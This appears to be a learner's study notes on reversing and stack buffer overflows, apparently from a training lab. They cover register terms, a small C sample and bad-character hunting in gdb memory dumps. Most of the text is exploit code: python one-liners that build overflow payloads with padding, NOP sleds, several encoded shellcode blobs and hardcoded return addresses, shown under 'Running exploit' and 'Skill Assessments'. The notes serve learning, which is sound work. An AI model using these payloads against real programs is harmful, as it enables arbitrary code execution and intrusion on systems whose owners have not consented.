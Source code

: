 # Reversing

## Terminologies

- rbp => base pointer
- rsp => stack pointer
- rax => acumulador
- rdx => General register or to pass arguments.
- rcx => contador (used in loops).
- rsi => second variable
- rdi => first variable
- eip => next instruction to be executed
- eax => variable global usada en CPU architectures
- rbx => base
- rip => instruction pointer (actual instruction that is executing)
- lea => Load Effective address

## Keywords.

  - Breakpoint:

## Reversing samples

```gcc
int f(){
  return 5;
}

void hackthur(){
  printf("hello I'm Hackthur\n");
}

int main(){
  f();
  hackthur();
}
```


After the file creation, we need to check in gdb, what's going on in the binary in the execution




buffer = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" => 256

```bash

$(python -c 'print "\x55" * (1040 - 256 -4) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66"*4')
```

bad_characters = "\x00\x09\x0a\x20"
As the last "\x55" ends, this should be start with "\x00" that is a bad character
In the other observation

```bash
0xffffd5f0:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5f8:     0x01    0x02    0x03    0x04    0x05    0x06    0x07    0x08
0xffffd600:     0x00    0x0b    0x0c    0x0d    0x0e    0x0f    0x10    0x11
0xffffd608:     0x12    0x13    0x14    0x15    0x16    0x17    0x18    0x19
```

Neither follow after \x08 is missing the \x09, so \x09 is another bad character

In the next line

```bash
0xffffd5da:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5e2:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5ea:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5f2:     0x55    0x55    0x55    0x55    0x55    0x55    0x01    0x02
0xffffd5fa:     0x03    0x04    0x05    0x06    0x07    0x08    0x00    0x0b
0xffffd602:     0x0c    0x0d    0x0e    0x0f    0x10    0x11    0x12    0x13
```

\x0a is missing and in the next line \x20





$(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xb8\x37\x03\x2b\x9d\xda\xc7\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\x83\xea\xfc\x31\x42\x0e\x03\x75\x0d\xc9\x68\x48\xca\xfa\x70\xf9\xaf\x57\x1d\xff\xa6\xb9\x51\x99\x75\xb9\x01\x3c\x36\x85\xe8\x3e\x7f\x83\x0b\x56\xff\x73\xec\xa7\x97\x71\xec\xdd\x0e\xff\x0d\x91\xb7\xaf\x9c\x82\x84\x53\x96\xc5\x26\xd3\xfa\x6d\xd7\xfb\x89\x05\x4f\x2b\x41\xb7\xe6\xba\x7e\x65\xaa\x35\x61\x39\x47\x8b\xe2"+ "\x4c\xd6\xff\xff")

run $(python -c 'print "\x55" *(1040 - 100 - 95 - 4)+"\x90"*100+"\xd9\xe9\xd9\x74\x24\xf4\xbf\xc2\x6d\x14\x0c\x5d\x31\xc9\xb1\x12\x83\xed\xfc\x31\x7d\x13\x03\xbf\x7e\xf6\xf9\x0e\x5a\x01\xe2\x23\x1f\xbd\x8f\xc1\x16\xa0\xe0\xa3\xe5\xa3\x92\x72\x46\x9c\x59\x04\xef\x9a\x98\x6c\xfa\x56\x54\x4a\x92\x64\x6a\xe8\x0b\xe0\x8b\xbc\xaa\xa2\x1a\xef\x81\x40\x14\xee\x2b\xc6\x74\x98\xdd\xe8\x0b\x30\x4a\xd8\xc4\xa2\xe3\xaf\xf8\x70\xa7\x26\x1f\xc4\x4c\xf4\x60"+"\x88\xd6\xff\xff"')


run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xdb\xd6\xd9\x74\x24\xf4\xbb\x4f\x1f\x9b\xa6\x58\x2b\xc9\xb1\x12\x83\xe8\xfc\x31\x58\x13\x03\x17\x0c\x79\x53\x96\xe9\x8a\x7f\x8b\x4e\x26\xea\x29\xd8\x29\x5a\x4b\x17\x29\x08\xca\x17\x15\xe2\x6c\x1e\x13\x05\x04\xab\xe9\xfa\xf2\xc3\xef\x04\x80\x7a\x79\xe5\xc4\x1b\x29\xb7\x77\x57\xca\xbe\x96\x5a\x4d\x92\x30\x0b\x61\x60\xa8\xbb\x52\xa9\x4a\x55\x24\x56\xd8\xf6\xbf\x78\x6c\xf3\x72\xfa" + "\x88\xd6\xff\xff"')




0x37714336 => offset 2060
stack => 0xfffdc000 0xffffe000    0x22000        0x0 [stack]


## Running exploit


```bash
run $(python -c 'print "\x55"*(1040 - 100 - 95 -4)+"\x90"*100+"\xdb\xdd\xd9\x74\x24\xf4\xba\x3b\x56\x86\x65\x58\x31\xc9\xb1\x12\x31\x50\x17\x83\xc0\x04\x03\x6b\x45\x64\x90\xba\xb2\x9f\xb8\xef\x07\x33\x55\x0d\x01\x52\x19\x77\xdc\x15\xc9\x2e\x6e\x2a\x23\x50\xc7\x2c\x42\x38\xd2\xc4\xbb\x9e\x8a\xda\xc3\xa4\x23\x52\x22\xe8\xd2\x34\xf4\x5b\xa8\xb6\x7f\xba\x03\x38\x2d\x54\xf2\x16\xa1\xcc\x62\x46\x6a\x6e\x1a\x11\x97\x3c\x8f\xa8\xb9\x70\x24\x66\xb9"+"\x66"*4')


run $(python -c 'print "\x55"*(1040 - 100 - 95 -4)+"\x90"*100+"\xdb\xdd\xd9\x74\x24\xf4\xba\x3b\x56\x86\x65\x58\x31\xc9\xb1\x12\x31\x50\x17\x83\xc0\x04\x03\x6b\x45\x64\x90\xba\xb2\x9f\xb8\xef\x07\x33\x55\x0d\x01\x52\x19\x77\xdc\x15\xc9\x2e\x6e\x2a\x23\x50\xc7\x2c\x42\x38\xd2\xc4\xbb\x9e\x8a\xda\xc3\xa4\x23\x52\x22\xe8\xd2\x34\xf4\x5b\xa8\xb6\x7f\xba\x03\x38\x2d\x54\xf2\x16\xa1\xcc\x62\x46\x6a\x6e\x1a\x11\x97\x3c\x8f\xa8\xb9\x70\x24\x66\xb9"+"\x8c\xd6\xff\xff"')


echo "0xffffd68c"
echo "0xffffd684"

"\x84\xd6\xff\xff"
```




Skill Assessments

offset 2060, therefore the value up to the stack should be 2064



run $(python -c 'print "\x55"*(2064 - 100 - 95 -4)+"\x90"*100 + "\xd9\xf6\xb8\x9d\x0f\xbc\x7e\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1\x12\x31\x47\x17\x83\xef\xfc\x03\xda\x1c\x5e\x8b\xd5\xf9\x69\x97\x46\xbd\xc6\x32\x6a\xc8\x08\x72\x0c\x07\x4a\xe0\x89\x27\x74\xca\xa9\x01\xf2\x2d\xc1\x9b\x0e\xc1\x37\xf4\x0c\xdd\x4d\x6d\x98\x3c\x01\x0b\xca\xef\x32\x67\xe9\x86\x55\x4a\x6e\xca\xfd\x3b\x40\x98\x95\xab\xb1\x71\x07\x45\x47\x6e\x95\xc6\xde\x90\xa9\xe2\x2d\xd2" + "\x88\xd6\xff\xff"')


\x88\xd6\xff\xff